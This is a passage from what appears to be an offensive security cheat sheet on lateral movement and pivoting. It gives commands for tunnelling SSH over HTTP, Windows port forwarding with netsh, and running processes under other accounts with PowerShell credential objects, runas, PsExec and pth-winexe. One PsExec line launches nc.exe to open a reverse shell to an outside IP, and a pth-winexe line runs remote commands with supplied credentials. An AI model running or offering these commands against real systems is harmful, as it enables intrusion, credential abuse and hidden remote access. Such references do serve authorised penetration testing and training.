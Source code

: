 HTTP Tunnel: SSH Over HTTP 
```bash
# Server - open port 80. Redirect all incoming traffic to localhost:80 to localhost:22
hts -F localhost:22 80

# Client - open port 8080. Redirect all incoming traffic to localhost:8080 to 192.168.1.15:80
htc -F 8080 192.168.1.15:80

# Client - connect to localhost:8080 -> get tunneled to 192.168.1.15:80 -> get redirected to 192.168.1.15:22
ssh localhost -p 8080
```

Netsh - Windows Port Forwarding
```bash
# requires admin
netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport
```

### RunAs / Start Process As

PowerShell
```powershell
# Requires PSRemoting
$username = 'Administrator';$password = '1234test';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;Invoke-Command -Credential $credential -ComputerName COMPUTER_NAME -Command { whoami }

# without PSRemoting
cmd> powershell Start-Process cmd.exe -Credential (New-Object System.Management.Automation.PSCredential 'username', (ConvertTo-SecureString 'password' -AsPlainText -Force))

# without PS Remoting, with arguments
cmd> powershell -command "start-process cmd.exe -argumentlist '/c calc' -Credential (New-Object System.Management.Automation.PSCredential 'username',(ConvertTo-SecureString 'password' -AsPlainText -Force))"
```

CMD
```pwoershell
# Requires interactive console
runas /user:userName cmd.exe
```

PsExec
```bash
psexec -accepteula -u user -p password cmd /c c:\temp\nc.exe 10.11.0.245 80 -e cmd.exe
```

Pth-WinExe
```bash
pth-winexe -U user%pass --runas=user%pass //10.1.1.1 cmd.exe
```
